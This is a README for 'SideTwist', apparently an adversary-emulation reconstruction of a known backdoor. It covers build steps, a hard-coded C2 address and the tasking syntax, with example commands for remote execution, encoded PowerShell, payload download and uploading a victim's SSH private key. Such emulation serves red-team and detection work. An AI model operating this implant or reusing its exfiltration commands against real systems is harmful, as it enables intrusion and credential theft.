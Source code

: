 # SideTwist Implant

## About
The SideTwist implant consists of a single executable. In emulated execution, it only
executes a single command at a time, waiting to again be called by a scheduled task. In
the default execution, no arguments are required as the C2 address and port are hard-coded.
This implementation contains optional arguments to make testing with it a little easier.

At a high level, the lifecycle of the implant consists of the following actions:

```
1. Beacon to the C2 server to get a task in the format `<cmd index>|<cmd type>|<arg1[|arg2]>`
1a. Commands include: command execution, file download, file upload

2. Execute the requested task

3. Return the status via POST. There is a small deviation from the CTI here in that file downloads will generate a POST response
alerting the operator to a successful or unsuccessful write.
```

An additional file, `update.xml`, is required for execution. The implant checks the user's
%LOCALAPPDATA%\\SystemFailureReporter folder and terminates if not found. The file does not need 
to contain anything. This is a small deviation from the CTI which used a relative path. Upon testing 
with scheduled tasks from the command line, it appears that the binary was being run from a different 
path and subsequently unable to follow the relative link. Without using an XP-compatible version of 
schtasks from the command line, the "Start In" variable seemingly cannot be set in CMD to allow for the use
of relative paths.

## Build
The implant can be built in Visual Studio, with the Developer Command Prompt from VS, or
with msbuild.exe which can be obtained separately from VS. Whichever option is chosen,
ensure the file `update.xml` exists in %LOCALAPPDATA%\\SystemFailureReporter\\. For example,
for user gosta, place the `update.xml` file in `C:\Users\gosta\AppData\Local\SystemFailureReporter`. 
The file does not need to contain any data.

#### Developer Prompt
Open a developer command prompt and navigate to the directory containing the solution file
`SideTwist.sln` (it should be located in the same directory as the SideTwist and 
SideTwistTests code folders). Once there, run the following:

`devenv.exe SideTwist.sln /build Release`

The executable will be found in the release folder, typically located in `.\x64\Release`.

## Run
The program can be run without arguments to use the hard-coded values. These values are:

```
IP Address: 192.168.0.4
Port: 443
```

Without arguments, the implant will execute once and exit. To ease testing, additional
arguments are available in the `SideTwist-loopable.exe` version (or by swapping out the
main.cpp for the one found in SideTwist\\loopable_version). NOTE: This loopable version
simply checks the local relative path for update.xml and will not work with scheduled tasks.

```
--loop		Lets the agent continuously execute, looping every 10 seconds
-ip			Sets the IP address of the server rather than using the hard-coded address
-p			Sets the contact port of the server rather than using 443
```

### Note on Command Strings
When issuing a command execution instruction (101 or 104), the default executor is CMD.
Do not supply "cmd /c" as part of commands. For example, simply supply "whoami". Piping
commands is acceptable. Note: CMD does not handle single quotes for paths.

All commands automatically redirect STDERR to STDOUT to capture errors.

For PowerShell, it is recommended you use Base64 encoded commands. Be sure to use the
correct Base64 encoding (UTF-16LE). The command structure to the implant is as follows:

`powershell -e base64goeshere`

Do not include quotes, .exe, or cmd /c "powershell.exe ...".

If you have paths with spaces, recommend single quotes around the instruction with double
quotes inside:

`... 'dir "c:\program files"'`

### Example commands of each type
```
# Execute a command - can swap 101 for 104
./evalsC2client.py --set-task <ID> '101 whoami'
./evalsC2client.py --set-task <ID> '101 powershell -e JABlAG4AdgA6AGMAbwBtAHAAdQB0AGUAcgBuAGEAbQBlAA=='

# Download a file and save it to disk. Argument is victim\path\file.name|serverfile.name
./evalsC2client.py --set-task <ID> '102 c:\users\public\payload.exe|payload.exe'

# Upload a file
./evalsC2client.py --set-task <ID> '103 c:\users\dummy\.ssh\id_rsa'

# Kill the agent in loop mode
./evalsC2client.py --set-task <ID> '105'
```

## Tests
Once the solution is built, there's a separate test executable in the release folder
with the implant. Running that executable should produce the requisite test results.
Some tests depend on local environment variables. They have been written to encompass
the development range (e.g., the test will fail if run on anything other than dragon#).

The server connection is not currently mocked. This means a live C2 server is required for some
tests. Furthermore, the C2 server needs to be on the hard-coded C2 server (192.168.0.4).

The test for run() can be run with a live server and no instruction supplied (e.g. 
initial registration of the implant). 

The FileDownload test needs the implant to have already been registered and a specific 
task waiting: `... '102 c:\users\public\test.txt|sidetwist_test.txt'`. test.txt's contents
do not matter, only that it's a non-empty, base64 encoded file.
